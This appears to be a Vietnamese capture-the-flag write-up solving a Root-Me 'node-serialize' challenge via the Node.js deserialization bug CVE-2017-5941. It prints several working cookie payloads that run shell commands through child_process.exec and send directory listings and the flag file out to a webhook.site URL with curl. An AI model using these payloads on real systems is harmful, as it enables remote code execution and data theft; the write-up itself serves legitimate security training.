Challenge: http://challenge01.root-me.org:59067/

Đầu tiên khi truy cập challenge ta thấy nó sẽ bắt nhập `user:password`:


Thử với `admin:admin` hay `guest:guest` đều không thể vào trong, ở Burp Suite ta thấy đọc request và response: 


Ta thấy 1 đầu vào đang được đưa vào 1 dòng cookie và được base64 ở dạng chuỗi. Với tên bài là node-serialize thì tìm kiếm ta sẽ có được https://www.exploit-db.com/docs/english/41289-exploiting-node.js-deserialization-bug-for-remote-code-execution.pdf là `CVE-2017-5941`

Khai thác : 
Đầu tiên với payload: 
`{"userName":"a","passWord":"_$$ND_FUNC$$_require('child_process').exec('curl https://webhook.site/ae3f1599-2460-4b76-b22d-47c8fd375dbc', function(error, stdout, stderr) { console.log(stdout) })"}`


Ta đã có thể bắt được gói tin bên webhook, có nghĩa là ta đã có thể thực hiện lệnh curl:
 

Tiếp tục thay thế bằng payload: 
`{"userName":"a","passWord":"_$$ND_FUNC$$_require('child_process').exec('ls | base64 | curl https://webhook.site/ae3f1599-2460-4b76-b22d-47c8fd375dbc?c=$(cat)', function(error, stdout, stderr) { console.log(stdout) })"}`\



Tiếp theo ta vào folder flag: 
`{"userName":"a","passWord":"_$$ND_FUNC$$_require('child_process').exec('ls flag | base64 | curl https://webhook.site/ae3f1599-2460-4b76-b22d-47c8fd375dbc?c=$(cat)', function(error, stdout, stderr) { console.log(stdout) })"}`\



Tiếp tục: 
`{"userName":"a","passWord":"_$$ND_FUNC$$_require('child_process').exec('ls flag/secret | base64 | curl https://webhook.site/ae3f1599-2460-4b76-b22d-47c8fd375dbc?c=$(cat)', function(error, stdout, stderr) { console.log(stdout) })"}`\



Đến đây là hết rồi, secret là file flag rồi nên ta sẽ cat nó ra: 
`{"userName":"a","passWord":"_$$ND_FUNC$$_require('child_process').exec('cat flag/secret | base64 | curl https://webhook.site/ae3f1599-2460-4b76-b22d-47c8fd375dbc?c=$(cat)', function(error, stdout, stderr) { console.log(stdout) })"}`\



